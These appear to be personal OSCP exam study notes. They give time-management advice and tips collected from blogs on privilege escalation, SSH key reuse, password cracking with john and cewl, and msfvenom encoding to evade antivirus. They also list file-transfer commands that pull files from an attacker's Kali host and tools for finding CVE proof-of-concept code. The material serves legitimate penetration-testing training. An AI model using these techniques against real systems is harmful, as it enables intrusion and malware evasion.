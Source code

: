 # OSCP Exam Strategy


## Warning Signs You Need a Break

Making the same mistake repeatedly indicates fatigue. Frustration or anger building means you need distance. Tunnel vision on a single approach limits creativity. Physical discomfort like eye strain or back pain reduces effectiveness. Trust these warning signs and take breaks.

## When You Are Stuck: 30-Minute Protocol

Step back and re-read all your notes. Try a different approach from your methodology. Google the specific error or issue. Ask yourself what you might be missing. Sometimes the answer is in information you already have.

## When You Are Stuck: 1-Hour Protocol

Switch to a different machine temporarily. Review your methodology checklist for missed steps. Try manual verification of automated tool results. Consider privilege escalation vectors if you already have user access. Fresh perspective often reveals what you missed.

## When You Are Stuck: 2-Hour Protocol

Take a mandatory 15-30 minute break away from computer. Start completely fresh on a different target. Document everything you have tried in detail. Plan return strategy with specific new approaches to try. This prevents wasting time repeating failed methods.

---

# Article Notes
Miscellaneous practical tips for the exam, from various blogs.

##  OSCP Exam Secrets — Avoiding Rabbit Holes and Staying on Track (Part 2)

https://infosecwriteups.com/oscp-exam-secrets-avoiding-rabbit-holes-and-staying-on-track-part-2-c5192aee6ae7

- LFI is good for information disclosure, but also a good vector to RCE via log poisoning or PHP stream wrappers
- Checklist for after finding a private key, id_rsa
	- `ssh -i id_rsa user@TARGET -p PORT -o IdentitiesOnly=yes -o BatchMode=yes -vvv`
	- Check password protection: `ssh-keygen -y -f id_rsa >/dev/null && echo “no passphrase” || echo “passphrase-protected or invalid”`
	- If password protected, use ssh2john and crack
	- If ssh complains about libcrypto or key format, normalize the file: `dos2unix id_rsa` then `vim --clean id_rsa`
- Use RunasCs to switch users on Windows without having access to a GUI https://github.com/antonioCoco/RunasCs
- 
## Beyond the Shell: Advanced Enumeration and Privilege Escalation for OSCP (Part 3)

https://infosecwriteups.com/beyond-the-shell-advanced-enumeration-and-privilege-escalation-for-oscp-part-3-7410d3812d02

- When using a PHP reverse shell with a Windows target, use the PHP Ivan Sincek shell from revshells.com
	- reliable and often gives access as a Service User, which will usually have SeImpersonatePrivilege
- For Windows automated privesc, start with PrivescCheck.ps1 (clean and accurate results) https://github.com/itm4n/PrivescCheck
	- `powershell -ep bypass -c “. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML”`
- Just use john with rockyou for cracking, don't worry about hashcat or other lists
	- If there's an "About Us" page on a target website, use username anarchy / cupp / cewl to generate a custom wordlist
		- `cewl http://testphp.vulnweb.com -w test.txt`
		- `cewl http://testphp.vulnweb.com/artists.php --with-numbers`
	- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
	- Password protected zips and kbdx files are likely meant to be cracked. Use zip2john or kbdx2john 
- Clock Skew
	- "KRB_AP_ERR_SKEW(Clock skew too great)." when using attacks involving Kerberos
	- Use `ntpdate` or `rdate` on kali system to sync local time to the DC
- AV evasion
	- encode msfvenom payloads with x86/shikata_ga_nai or x64/xor_dynamic with multiple iterations (-i) to change the signature
- FTP/SMB
	- When there is FTP or SMB, check for anon/default creds immediately
	- Try to enumerate/discover usernames. Then use the discovered names to brute force web pages or SSH
	- Try strange file/dir names as usernames/passwords across other systems
- Don't hesitate to revert a machine if something doesn't work
- File transfer basics
	- Linux: 
		- Serve: `python3 -m http.server 80`
		- Download: `curl http://<Kali-IP>/file.bin -o file.bin`
	- Windows: 
		- Serve: `impacket-smbserver`
		- Upload/download from Windows: use `copy`

# Tooling To Help Hunt Down POCs For Vulnerable CVEs Beyond Searchsploit
## searchsploit
`searchsploit -u`

...

## Vulnx

`go install github.com/projectdiscovery/cvemap/cmd/vulnx@latest`

Add to PATH if not present
in bashrc, zsh etc
`export PATH=/home/username/go/bin/:$PATH`

Create account on
 https://cloud.projectdiscovery.io

Auth with API key
`vulnx auth`

```
vulnx version
vulnx healthcheck
```

`vulnx search "form tools 3.1.1"`

`--detailed`

`vulnx id <CVE>`

## Search_Vulns

```
git clone https://github.com/ra1nb0rn/search_vulns
cd ./search_vulns
docker build -t "new-docker-name" .
docker build -t search_vulns .

docker run -it "docker-name" bash
docker run -it search_vulns bash
```

search_vulns.py print help and update

```
python3 ./search_vulns.py -h
./search_vulns.py -h

./search_vulns.py -u
./search_vulns.py --full-update
```

 query search_vulns

`./search_vulns.py -q "CVE-2024-22722"`
